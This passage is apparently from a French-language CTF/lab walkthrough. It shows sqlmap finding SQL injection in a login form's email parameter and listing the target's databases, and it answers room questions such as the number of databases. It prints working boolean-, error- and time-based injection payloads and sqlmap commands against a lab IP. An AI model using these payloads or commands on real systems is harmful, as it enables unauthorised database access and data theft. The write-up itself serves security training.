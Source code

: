 ```bash
Parameter: email (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: email=test' AND 9749=(SELECT (CASE WHEN (9749=9749) THEN 9749 ELSE (SELECT 8209 UNION SELECT 3577) END))-- irFf&password=my_password

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: email=test' OR (SELECT 2937 FROM(SELECT COUNT(*),CONCAT(0x717a786a71,(SELECT (ELT(2937=2937,1))),0x716b707071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- jUhZ&password=my_password

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=test' AND (SELECT 3712 FROM (SELECT(SLEEP(5)))BwqO)-- usqD&password=my_password
---
[14:38:32] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[14:38:32] [INFO] fetching database names
[14:38:32] [INFO] resumed: 'information_schema'
[14:38:32] [INFO] resumed: 'ai'
[14:38:32] [INFO] resumed: 'mysql'
[14:38:32] [INFO] resumed: 'performance_schema'
[14:38:32] [INFO] resumed: 'phpmyadmin'
[14:38:32] [INFO] resumed: 'test'
available databases [6]:
[*] ai
[*] information_schema
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] test

[14:38:32] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.111.207'
[14:38:32] [WARNING] you haven't updated sqlmap for more than 2031 days!!!

[*] ending @ 14:38:32 /2025-10-25/
```

Et comme on peut le voir, on apperçois plusieurs bases de données comme `ai`, `information_schema`...

**Réponse :** `6`

**What is the name of the table available in the "ai" database?**

Donc je me souviens que pour dire a SQLMap qu'on va chercher des infos dans une certaine tables, on utilise le flag `-D` suivi du nom de la table et en n'oubliant pas le flag `--tables` pour afficher celles ci

```bash
root@ip-10-10-90-184:~# sqlmap -u "http://10.10.111.207/ai/includes/user_login?email=test&password=my_password" -D ai --tables --level=5
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.4.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:55:46 /2025-10-25/
```